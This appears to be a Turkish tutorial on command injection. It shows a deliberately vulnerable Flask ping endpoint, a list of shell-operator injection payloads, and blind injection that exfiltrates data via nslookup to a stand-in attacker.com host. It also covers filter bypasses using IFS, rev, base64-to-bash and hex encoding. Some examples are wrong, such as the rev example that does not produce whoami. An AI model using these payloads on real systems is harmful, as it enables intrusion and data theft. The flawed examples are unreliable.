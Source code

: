 # Command Injection & Argument Injection
Command Injection, web uygulamalarının kullanıcıdan aldığı girdiyi yeterli doğrulama veya filtreleme yapmadan doğrudan işletim sistemi komutuna iletmesi sonucu ortaya çıkan kritik bir güvenlik açığıdır. Bu zafiyet sayesinde saldırgan, uygulamanın çalıştığı işletim sistemi üzerinde uygulamanın yetkileriyle (çoğunlukla www-data, apache, nginx) arbitrary command execution gerçekleştirebilir.

Command Injection genellikle aşağıdaki koşullarda görülür:
- Kullanıcı girdisinin system(), exec(), shell_exec(), os.system() gibi OS komut çalıştırma fonksiyonlarına parametre olarak verilmesi
- Girdi doğrulama ve sanitize mekanizmalarının eksik veya hatalı olması
- İşletim sistemi komutlarının shell üzerinden çağrılması (örn: /bin/sh -c "komut")

Bu zafiyetin istismarı sonucunda saldırgan, dosya sistemi üzerinde okuma/yazma, ağ bağlantıları kurma, hassas verileri sızdırma gibi saldırılar gerçekleştirebilir.

# Command Injection Saldırısının İşleyişi
Aşağıda, Command Injection zafiyetine sahip bir Flask uygulaması örneği bulunmaktadır. Yorum satırları, kodun işleyişini adım adım açıklar. Bu örnek, kullanıcı girdisinin doğrudan işletim sistemi komutuna iletilmesi sonucu ortaya çıkan güvenlik açığını göstermektedir.

```python
from flask import Flask, request
import subprocess

app = Flask(__name__)

@app.route('/ping', methods=['GET'])
def ping():
    ip = request.args.get('ip')  # /ping?ip=127.0.0.1 ile kullanıcı IP gönderir
    command = 'ping -c 1 ' + ip # Ping komutu oluşturuluyor
    # subprocess.run ile komut çalıştırılıyor. shell=True nedeniyle Command Injection riski var
    result = subprocess.run(command, shell=True, capture_output=True, text=True) # ip adresini eklediği ping komutunu çalıştırır
    return f"<pre>{result.stdout}</pre>"  # Çıktı ekrana yazdırılıyor


if __name__=='__main__': 
   app.run(debug=True) 
```

Geliştirici, kodun şu şekilde çalıştırılacağını varsayar:
```url
http://example.com/ping?ip=google.com
```

Ancak bir saldırgan, shell operatörlerini kullanarak kolayca RCE elde edebilir:
```url
http://example.com/ping?ip=google.com;whoami
```

Bu istek çalışacaktır çünkü kullanıcı girdisi üzerinde herhangi bir filtreleme yapılmamaktadır ve komut olduğu gibi çalıştırılmaktadır. Aşağıda kullanılabilecek bazı parametre örnekleri bulunmaktadır:
```bash
; whoami
& whoami &
&& whoami
| whoami
`whoami`
$(whoami)
|| whoami
```

## Blind Command Injection
Bazı uygulamalarda çıktıyı göremezsiniz. Bu durumda zaman tabanlı veya dışa veri sızdırma yöntemleri kullanılır. Örnekler:
- Zaman tabanlı:
```url
http://example.com/ping?ip=127.0.0.1; sleep 5
```
Yanıtın gecikmesi zafiyeti doğrular.

- DNS/HTTP exfiltration:
```url
http://example.com/ping?ip=127.0.0.1; nslookup $(whoami).attacker.com
```

Sistem bilgisi saldırgan sunucusuna gönderilir.

## Filtreleri Bypasslamak
### {IFS} (Internal Field Separator)
- Amaç: Filtrelenmiş boşluk karakterlerini atlatmak.
- Örnek: ``` ping{IFS}-c{IFS}1{IFS}127.0.0.1 ``` → boşluk yerine {IFS} kullanarak komut hala çalışır.
- Faydası: Özellikle whitelist veya regex tabanlı filtreleri bypass etmek için kullanılır.
- Not: {IFS} sadece POSIX/Linux ortamında çalışır.

### rev Komutu
- Amaç: Komutun tersini yazarak filtreleri atlatmak ve shell üzerinden geri çevirmek.
Örnek:
```bash
echo "dne" | rev  # output: end
```
- Kullanım: Filtreler “whoami” gibi blacklisted kelimeleri engelliyorsa, tersini yazıp rev ile düzeltip çalıştırabilirsin.

Saldırı örneği:
```bash
echo imirh | rev  # whoami çalıştırır
```
### Base64
- Kullanım: Payload’ı Base64 ile encode edip, shell içinde decode ederek çalıştırmak.
Örnek:
```bash
echo "c2ggLWkgL3RtcA==" | base64 -d | bash
```
- Açıklama: c2ggLWkgL3RtcA== → sh -i /tmp komutunu temsil eder.
- Faydası: WAF/filtreler komutu direkt göremez, shell decode edip çalıştırır.

### Hex Encoding
- Kullanım: Karakterleri hex ile kodlayıp shell üzerinde decode etmek.
- Linux örnek:
```bash
echo -e "\x73\x68\x20\x2d\x69"  # sh -i
```